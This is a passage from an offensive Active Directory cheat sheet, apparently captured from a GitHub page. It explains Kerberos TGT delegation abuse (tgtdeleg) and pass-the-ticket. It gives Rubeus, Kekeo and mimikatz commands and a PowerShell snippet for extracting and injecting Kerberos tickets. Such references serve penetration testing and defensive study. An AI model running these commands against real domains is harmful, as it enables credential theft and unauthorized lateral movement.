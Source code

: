 This is possible due to the way `Kerberos` `unconstrained delegations` are
implemented: the user must provide a `TGT` to the principal trusted for the
`unconstrained delegation` (such as the Domain Controller machine accounts). As
the current user's `TGT` cannot be forwarded directly (as it may be linked to
the current user IP address), a request for a `forwardable` (`forwarded`
attribute set) `TGT` is requested by the client. This result in the retrieval
client-side of an `AP-REQ` message containing a `KRB_CRED` struct with the
`TGT` (encrypted with the key sent by the `KDC` for the session).

The `Rubeus`'s `tgtdeleg` or `Kekeo`'s `tgt::deleg` modules can be used to
conduct this technique and retrieve a `TGT` for the current user:

```bash
# If an SPN trusted for unconstrained delegation cannot be automatically found by Rubeus, it can be specified using the /target:<SPN> option.
Rubeus.exe tgtdeleg

kekeo # tgt::deleg
```

*Automated ticket extraction from Rubeus output.*

If needed, the retrieved `Kerberos` tickets can be automatically extracted from
`Rubeus` output (for example from the `tgtdeleg` module) using the PowerShell
script below:

```bash
$tgtdeleg_res = Invoke-Rubeus -Command "tgtdeleg"
$tmp = $tgtdeleg_res -replace "`t|`n|`r",""
$tmp -match "ticket.kirbi\):(?<content>.*)"

$TGT = $matches['content'] -replace '\s',''
```

### Pass-the-ticket (PtT)

###### [Windows / Linux] Direct requests of service tickets

On Windows, the `Rubeus`'s `asktgs` module can be used to request `service
tickets` using a valid `TGT`:

```bash
# ptt: Directly injects the received service ticket in the current logon session.

Rubeus.exe asktgs /ticket:<TGT_BASE64 | TGT_KIRBI_FILE_PATH> /service:<TARGET_SERVICE_SPN | TARGET_SERVICES_SPN> /ptt
```

###### [Windows] Injection into the current session

`Kerberos` tickets, in the credential format `KRB_CRED` (`KIRBI` file), can be
injected into the current logon session using `mimikatz` or `Rubeus`.

Both utilities leverage the Windows
`LsaCallAuthenticationPackage/KerbSubmitTicketMessage` API and will overwrite
the current logon session tickets.
